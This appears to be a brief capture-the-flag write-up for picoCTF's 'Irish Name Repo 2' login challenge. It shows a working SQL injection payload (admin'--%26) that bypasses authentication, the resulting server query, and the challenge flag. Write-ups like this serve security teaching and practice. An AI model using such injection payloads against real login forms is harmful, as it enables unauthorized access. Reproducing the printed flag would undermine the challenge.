

# Irish Name Repo 2

## solutions

after seaching i get login page 
<p align="center"> 

</p>

let test login like Iris name Repo 1


```console 

<h1>SQLi detected.</h1>

```

so try using '--& in username
```
username=admin'--%26&password=1&debug=1

<pre>username: admin'--&amp;
password: 1
SQL query: SELECT * FROM users WHERE name='admin'--&amp;' AND password='1'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_aee925db}</p>
```